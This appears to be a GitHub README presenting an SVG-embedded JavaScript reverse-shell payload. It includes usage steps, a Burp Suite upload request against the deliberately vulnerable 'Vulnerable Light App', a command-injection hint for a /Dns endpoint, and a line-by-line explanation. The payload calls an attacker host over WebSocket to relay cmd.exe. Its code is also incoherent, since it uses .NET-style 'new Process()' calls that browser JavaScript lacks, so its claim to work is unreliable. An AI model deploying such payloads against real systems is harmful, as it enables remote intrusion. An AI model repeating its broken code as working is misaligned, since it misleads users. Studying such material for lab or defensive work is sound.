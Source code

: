 # SVG Payload:

```
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    var host = 'Attacker_IP';
    var port = 'Attacker_Port';

    var s = new WebSocket('ws://' + host + ':' + port);
    s.onopen = function() {
      var proc = new Process();
      proc.StartInfo.FileName = 'cmd.exe';
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      var input = proc.StandardInput;
      var output = proc.StandardOutput;

      s.onmessage = function(event) {
        input.WriteLine(event.data);
      };

      setInterval(function() {
        var outputData = output.ReadToEnd();
        s.send(outputData);
      }, 100);
    };
  </script>
</svg>
```
## **Usage**: To use this payload:

- Replace `'Attacker_IP'` and `'Attacker_Port'` with the actual IP address and port of the attacker machine.

Upon opening the SVG file, the victim machine would establish a WebSocket connection to the attacker's server, enabling the attacker to execute commands on the victim's machine remotely.

## Example usage of the payload inside Burpsuite against Vulnerable Light App:
### Endpoint used:
- /Patch: Used to upload .svg files
- /Dns: Perform a DNS query for the Fully Qualified Domain Name (FQDN) passed as a parameter (`UserStr`). (Can be exploited by adding a '&' and executing our payload)

### Burpsuite PATCH request:
```
PATCH /Patch?t=<SNIP> HTTP/1.1
Host: localhost:4000
Connection: keep-alive
Content-Length: 961
sec-ch-ua: "Brave";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY3yVHB1BGhc61AgN
X-Forwarded-For: <SNIP>
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-GPC: 1
Accept-Language: fr-FR,fr
Origin: https://localhost:4000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://localhost:4000/swagger/index.html
Accept-Encoding: gzip, deflate, br

------WebKitFormBoundaryY3yVHB1BGhc61AgN
Content-Disposition: form-data; name="file"; filename="pocXSS.svg"
Content-Type: image/svg+xml
  
    var host = '192.168.1.134';
    var port = '4444';

    var s = new WebSocket('ws://' + host + ':' + port);
    s.onopen = function() {
      var proc = new Process();
      proc.StartInfo.FileName = 'cmd.exe';
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      var input = proc.StandardInput;
      var output = proc.StandardOutput;

      s.onmessage = function(event) {
        input.WriteLine(event.data);
      };

      setInterval(function() {
        var outputData = output.ReadToEnd();
        s.send(outputData);
      }, 100);
    };
------WebKitFormBoundaryY3yVHB1BGhc61AgN--
```

## SVG Payload Explanation

This SVG payload is designed to create a reverse shell connection from a victim machine (eg. web-server) to an attacker-controlled server. Below is an explanation of how the payload works:

1. **SVG Declaration**: The payload starts with the XML declaration `xmlns="http://www.w3.org/2000/svg"`, indicating that it's an SVG (Scalable Vector Graphics) file.
    
2. **JavaScript Payload**: The payload contains JavaScript code embedded within a `<script>` element. This JavaScript code performs the following actions:
    
    - **Setting Up Connection Parameters**: It initializes variables `host` and `port` with the attacker's IP address and the port number where the attacker's WebSocket server is listening.
        
    - **WebSocket Connection**: It creates a WebSocket connection (`ws://`) to the attacker's server using the specified host and port. The `onopen` event handler is triggered when the connection is successfully established.
        
    - **Executing Command Shell**: Upon connection establishment, it creates a new process (`cmd.exe` for Windows) on the victim's machine. This process is configured to redirect standard input and output streams to allow interaction with the command shell.
        
    - **Handling Input and Output**: It sets up event handlers to handle incoming messages (`onmessage`) from the WebSocket server and periodically send the output of the command shell (`cmd.exe`) back to the attacker's server. This enables bi-directional communication between the attacker and victim machines.
        
    - **Interval for Output Sending**: To continuously send the command shell's output to the attacker, it sets up an interval function (`setInterval`) that periodically reads the output of the command shell and sends it over the WebSocket connection.
        
3. **Placeholder Values**: The payload includes placeholder values `'Attacker_IP'` and `'Attacker_Port'` for the attacker's IP address and port. These values should be replaced with the actual IP address and port of the attacker's WebSocket server.

